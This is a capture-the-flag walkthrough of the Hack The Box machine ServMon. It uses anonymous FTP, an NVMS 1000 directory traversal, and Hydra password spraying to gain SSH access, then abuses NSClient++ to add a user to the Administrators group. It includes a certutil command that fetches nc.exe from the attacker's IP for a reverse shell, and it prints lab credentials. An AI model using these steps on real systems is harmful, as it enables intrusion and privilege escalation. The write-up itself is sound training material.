









# HTB - ServMon

#### Ip: 10.10.10.184
#### Name: ServMon
#### Rating: Easy

----------------------------------------------------------------------



### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.184
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-08 10:26 CST
Nmap scan report for 10.10.10.184
Host is up (0.068s latency).
Not shown: 65518 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c71af681ca1778d027dbcd462a092b54 (RSA)
|   256 3e63ef3b6e3e4a90f34c02e940672e42 (ECDSA)
|_  256 5a48c8cd39782129effbae821d03adaf (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  tcpwrapped
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
| http-title: NSClient++
|_Requested resource was /index.html
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
```
Logging into FTP with anonymous access, we find two user names, Nadine and Nathan, and are able to use the `get` command to download two files, Confidential.txt and 'Notes to do.txt'. Lets take a look at these:

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ cat 'Notes to do.txt'
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint 
```

Ok interesting. So we know now there is a passwords file on Nathan's desktop, which sounds promising. Also it appears Nathan has yet to remove public access to NVMS. Lets start there.

Heading to the site on port 80 we find a NVMS 1000 logon page:



We can try the default credentials for NVMS (admin:123456), but they don't work. This is confirmed in the 'Notes to do.txt' file:

```
1) Change the password for NVMS - Complete
```

Looking for exploits for NVMS I find: https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py

We can see the exploit is leveraging a directory traversal vulnerability and exploiting CVE 2019-20085.

Lets give this a shot and try to retrieve the Passwords.txt file on Nathan's desktop.



Nice, that worked!

The exploit conveniently also lets us save the contents:

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ cat nathan_passwords.txt 
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
Lets also add both known users to a file called users.txt:

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ cat users.txt                                                        
nadine
nathan
```
Lets now use Hydra to brute borce these passwords and see if we can SSH in with any credentials:



Nice, Hydra found valid credentials: nadine:L1k3B1gBut7s@W0rk. (HR may want to take a closer look at Nadine with a password like that.)

We can use this password to login using impacket-smbexec:

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ ssh nadine@10.10.10.184
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.
```

And grab the first flag:




### Privilege Escalation

Trying to load PowerUp.ps1 to the target, we see we'll have some AV to contend with:



Manually enumerating the target further I find a NSClient++ folder in Program Files.

Looking at this service I see it runs on port 8443, which is also open on this box.

Looking at potential exploits I find: https://www.exploit-db.com/exploits/46802

And see that we can access the service's admin password with the command:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

Ok cool. Seems like we're on the right track here. The only issue is that we can only access the site at localhost, so we can't just navigate to the site on the web as normal:



We'll need to set up some port forwarding to access the site.

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184 
```
(Note: if your port forwarding isn't working, try reverting the box. I had to revert it several times over the course of the hack)

We can now navigate to the page, but it is extremely buggy and just hangs.



Because the exploit found before was very unclear to me, I kept searching for other exploits and found:

https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation

This is especially interesting as the GUI is all but unusable, and this bypasses it.

Looks like the script will take the password provided and execute commands with admin privileges.

The exploit features catching a shell as admin by executing a nc.exe reverse shell command back to our Kali box, but unfortunately the AV/ firewall is preventing me from loading nc.exe:

```
nadine@SERVMON C:\temp>certutil -urlcache -split -f "http://10.10.14.60/nc.exe"
Access is denied.
```

So a workaround could be using the exploit to add Nadine to the administrator's group, and then log back in with admin privileges.

We can do that with:
```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ python exploit.py "net localgroup Administrators /add Nadine" https://127.0.0.1:8443 ew2x6SsGTxjRwXOT
```

Lets SSH back in as user Nadine and check our permissions:

```
PS C:\Users\Administrator\Desktop> net user nadine
User name                    Nadine
Full Name                    Nadine
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/28/2022 6:33:50 PM
Password expires             Never
Password changeable          2/28/2022 6:33:50 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/8/2024 11:01:27 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

Nice, we can see we are now part of the Administrators group.

Lets grab the last flag:



Thanks for following along,

-Ryan
